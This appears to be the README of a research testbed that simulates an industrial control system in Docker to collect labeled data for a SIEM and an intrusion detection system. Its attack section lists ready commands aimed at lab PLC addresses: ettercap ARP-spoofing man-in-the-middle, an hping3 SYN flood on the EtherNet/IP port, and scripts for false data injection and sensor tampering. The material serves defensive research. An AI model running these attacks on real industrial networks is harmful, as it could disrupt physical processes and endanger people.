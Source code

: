 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose is as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
4. The script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and ids in browser.
    Kibana port 5601 , ids (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node)
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

Collected dataset is stored as 'data.csv' in logs folder.

Label the dataset using 'label.py' script.

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (False data injection): Run the following script to launch this attack for x minutes.

    ```
    python attack_fdi.py <x>
    ```

**Attack scenario 2, 3, 4** (MitM/DoS): Run the following commands for attacks 2, 3, 4 respectively.

    ```
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 
    ```

**Attack scenario 5** (TCP SYN flooding)

    ```
    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1
    ```

**Attack scenario 6,7,8** (MitM/Data tampering): Run the following commands for attacks 6, 7, 8 respectively.

    ```
    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH
    ```
**Attack scenario 9,10,11 (MitM/Scaling positive) and Attack scenario 12,13,14 (MitM/Scaling negative)

    ```
    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -
    ```
**Attack scenario 15,16,17 (MitM/Data tampering)

    ```
    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH
    ```

**Attack scenario 18,19,20 (MitM/Scaling positive) and Attack scenario 21,22,23 (MitM/Scaling negative)

```
python attack_randomp.py PLC2
python attack_randomp.py PLC3
python attack_randomp.py BOTH
python attack_randomn.py PLC2
python attack_randomn.py PLC3
python attack_randomn.py BOTH
```

**Running ML-based IDS**

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)

